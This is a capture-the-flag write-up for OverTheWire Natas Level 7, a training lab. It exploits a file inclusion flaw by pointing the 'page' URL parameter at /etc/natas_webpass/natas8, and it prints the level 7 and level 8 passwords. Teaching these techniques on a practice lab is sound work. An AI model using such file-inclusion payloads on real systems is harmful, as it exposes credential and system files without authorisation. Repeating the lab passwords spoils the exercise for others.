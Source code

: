 # Natas CTF Solutions  

## Natas Level 7  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit the **file inclusion vulnerability** to read a restricted file.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas7.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas7`  
- **Password:** Use the password from Natas Level 6:  
```
bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```  
![Home Page](https://github.com/user-attachments/assets/d0cd25eb-508c-42c5-9012-33cf8e989246)

---

### **Step 3: Analyze the Webpage**  
- The page contains **clickable links** that navigate between pages like "Home" and "About".  
- The **URL changes dynamically** when switching pages:  
  ```
  http://natas7.natas.labs.overthewire.org/index.php?page=home
  ```  
- Inspecting the page source reveals a **hint** that passwords are stored in:  
  ```
  /etc/natas_webpass/natas8
  ```  

![Page Source](https://github.com/user-attachments/assets/0dde0931-6930-4e9f-8067-37c79c9ed50a)

---

### **Step 4: Exploit File Inclusion**  
Since the `page` parameter loads different pages dynamically, let's try replacing `home` with the **absolute path** of the password file:  

```  
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```  

---

### **Step 5: Retrieve the Password**  
- After modifying the URL, the page displays the password for **Natas Level 8**.  

---

### **✅ Password for Natas Level 8**  
```
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```  

---

## 💡 **Lessons Learned**  
✔️ **File Inclusion Vulnerability**: When user input is used in `include()` or `require()` functions, it can be exploited to load sensitive files.  
✔️ **Path Traversal**: If the server doesn't properly validate input, attackers can read arbitrary files by specifying absolute paths.  
✔️ **Inspect Page Source for Hints**: Comments or hints in the HTML source can reveal important clues.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source with Hint | ![Page Source](https://github.com/user-attachments/assets/0dde0931-6930-4e9f-8067-37c79c9ed50a)|  
| Step 5 – Page after Exploitation | ![Password](https://github.com/user-attachments/assets/2dad61ac-4466-4a6d-b808-426553f3244e) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 8**:  
👉 [http://natas8.natas.labs.overthewire.org](http://natas8.natas.labs.overthewire.org)  

---
